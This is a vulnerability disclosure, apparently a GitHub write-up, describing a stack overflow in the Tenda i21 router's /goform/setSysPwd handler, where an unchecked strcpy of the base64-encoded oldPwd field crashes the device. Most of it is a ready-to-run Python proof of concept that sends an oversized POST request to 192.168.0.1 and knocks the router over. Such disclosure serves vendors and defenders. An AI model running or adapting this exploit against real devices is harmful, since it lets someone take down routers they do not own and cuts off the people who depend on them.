 # Tenda i21 V1.0.0.14(4656) Dos vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address:https://www.tenda.com.cn/download/detail-2982.html

## Affected version

![](imgs/1.png)

## Vulnerability details

![](imgs/2.png)

In /goform/setSysPwd, when action is set to admin, the value of oldPwd will be base64 encoded and then passed to v3, and then v3 will be sent to encode_pwd by strcpy. It is worth noting that the stack overflow vulnerability is caused by not checking the size.

## Poc


```python
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.1'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x3000
p2 = b'action=admin&oldPwd=' + p1

p3 = b"POST /goform/setSysPwd" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.1" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: password=1111" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

You can see the router crash
